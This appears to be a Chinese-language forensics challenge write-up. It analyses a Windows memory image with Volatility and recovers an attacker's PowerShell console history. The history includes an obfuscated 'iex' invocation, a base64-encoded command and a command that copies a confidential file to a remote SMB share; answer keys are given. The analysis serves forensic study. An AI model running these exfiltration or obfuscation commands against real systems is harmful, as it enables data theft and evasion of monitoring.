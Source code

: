 ```bash title="python2 ./volatility-master/vol.py -f recollection.bin --profile=Win7SP1x64 consoles"

PS C:\Users\user> (gv '*MDR*').naMe[3,11,2]-joIN''
iex
PS C:\Users\user> net users

User accounts for \\USER-PC

-------------------------------------------------------------------------------
Administrator            Guest                    user
The command completed successfully.

PS C:\Users\user> powershell -e "ZWNobyAiaGFja2VkIGJ5IG1hZmlhIiA+ICJDOlxVc2Vyc1xQdWJsaWNcT2ZmaWNlXHJlYWRtZS50eHQi"
The term '??????????????????????????????' is not recognized as the name of a cmdlet, function, script file, or operable
 program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
At line:1 char:31
+ ?????????????????????????????? <<<<
    + CategoryInfo          : ObjectNotFound: (??????????????????????????????:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException

PS C:\Users\user> (gv '*MDR*').naMe[3,11,2]-joIN''
iex
PS C:\Users\user>
```

在其中关注到

```bash
PS C:\Users\user> (gv '*MDR*').naMe[3,11,2]-joIN''
iex
```

```plaintext title="Answer"
Invoke-Expression
```

## Task 5

> 执行了一个 CMD 命令，试图将一个文件渗透出去。完整的命令行是什么？

在上一题中可以得到

```plaintext title="Answer"
type C:\Users\Public\Secret\Confidential.txt > \\192.168.0.171\pulice\pass.txt
```

## Task 6

> 在上述命令之后，请告诉我们文件是否成功被渗透出去了？

```bash title="python2 ./volatility-master/vol.py -f recollection.bin --profile=Win7SP1x64 consoles"
PS C:\Users\user> type C:\Users\Public\Secret\Confidential.txt > \\192.168.0.171\pulice\passtxt
The network path was not found.
At line:1 char:47
+ type C:\Users\Public\Secret\Confidential.txt > <<<<  \\192.168.0.171\pulice\pass.txt
    + CategoryInfo          : OpenError: (:) [], IOException
    + FullyQualifiedErrorId : FileOpenFailure
```
